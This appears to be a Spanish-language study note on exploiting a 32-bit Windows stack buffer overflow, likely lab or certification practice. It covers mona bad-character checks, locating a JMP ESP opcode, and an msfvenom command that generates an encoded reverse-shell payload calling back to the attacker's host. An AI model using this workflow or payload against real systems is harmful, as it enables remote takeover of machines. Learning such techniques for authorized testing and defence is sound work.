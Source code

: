 Se habrá pausado/colpasado, pinchamos el ESP--> click derecho-->Follow in dump. Abajo izquierda veríamos el bytearray, justo donde no siga el órden ese carácter no lo gusta al programa. Por ejemplo si vemos `01 02 03 28 29` aquí el problema estaría con el 04, no se visualiza y corta el órden. Esto se hará uno a uno. Podemos ir descartando los badchars visualmente o con; `!mona compare -a 0x0251A128 -f C:\User\Guille\Desktop\MonaWork1\bytearray.bin`. El número es la dirección en el ESP, la que apunta a el bytearray, ompara eso con el archivo que tienes guardado, pero NO pongas el txt sino el .bin.

Con lo rerpesentado en badchars puedes ir quitando con `!mona bytearray -cpb '\x00\x0a'` Es recomendable, esto servirá para comparar la siguiente vez con !mona compare, ya que así se modifica el .bin. Para el exploit que tengo en el parrot lo quitamos a mano y ya está, más fácil.

Y vuelta lo mismo, cerramos todo, volvemos abrir, lanzamos exploit. Para cuando llegues al punto de quitar los badchars con mona se escriben todos ellos, es decir, si ahora sale de badchars 0d pondríamos `!mona bytearray -cpb '\x00\x0a\x0d'`. Quitamos manualmente el 0d de mi exploit.py y vuelta a empezar.

Cuando ejecutando el !mona compare ya no salgan badchars es que ya no hay. Los caracteres existenes no deberían dar problemas. Y podría generar un shellcode que me interese con los caracteres que sé ahora que puedo usar para generar instrucciones en la pila. Se puede hacer gracias a que el DEP(Data Execution Prevention) está deshabilitado, de estar habilitado no podríamos lanzar instrucciones en la pila.


### Buscando el opcode para saltar al ESP y cargar shellcode.

> En resumen; Con el offset llegamos al punto en el que el programa colapsa, en el EIP si es de 32 bits habrá 4 caracteres y su función es apuntar a la siguiente instrucción que se debe ejecutar pero antes de ocuparnos de esto averiguamos el ESP que contiene la dirección de la pila en la memoria. Recuerda que intentaremos ejecutar instrucciones en la pila. Descartamos los badchars contenidos en está pila (lo que en el exploit llamamos after_eip). Una vez averiguados los caracteres que podemos usar podemos crear un shellcode. Para que el programa apunte a ese shellcode(al ESP podemos decir), ahora si, entra la función real de EIP, para ello tenemos que buscar un opcode -porción de una instrucción de lenguaje de máquina que especifica la operación a ser realizada-, que realize un salto al ESP -JMP ESP-, ya que no vale con poner directamente la dirección contenida del ESP en el EIP.


Vamos a generar un shellcode, en este caso una instrucción a bajo nivel que nos lance una reverse shell. Esta instrucción se forma en hexadecimal y tendremos que excluir los badchars sacados antes. Imaginemos que esos badchars son; x00,x0a,x0d.  
Usaremos para crear el shellcode msfvenom, una herramienta de metaexploit pero sin usar metaexploit.
```sh
> msfvenom -l payloads
# Veremos todos los payloads disponibles.
# Los que llevan ruta meterpreter si que son usando metaexploit estando desde un listener -sesión de escucha-.

> msfvenom -p windows/shell_reverse_tcp --platform windows -a x86 LHOST=MIIP LPORT=MIPUERTO -f c -e x86/shikata_ga_nai -b '\x00\x0a\x0d' EXITFUNC=thread
# Hay que indicar el sistema operativo y la arquitectura que en este caso es de 32 bits. 
# LHOST y LPORT es el host y el puerto al que será mandada la reverse, es decir, al mio de atacante.
# -f de formato que será C.
# msfvenom usa encoders por detrás, el encoder que suele usar por defecto es el shikata_ga_nai.
# EXITFUNC=thread es para que cree un proceso hijo del servicio, ya que si consigues la reverse y luego sales de ella el servicio colpasará, de esta manera se crea un proceso hijo y al salir solo fallaría ese hijo.
```
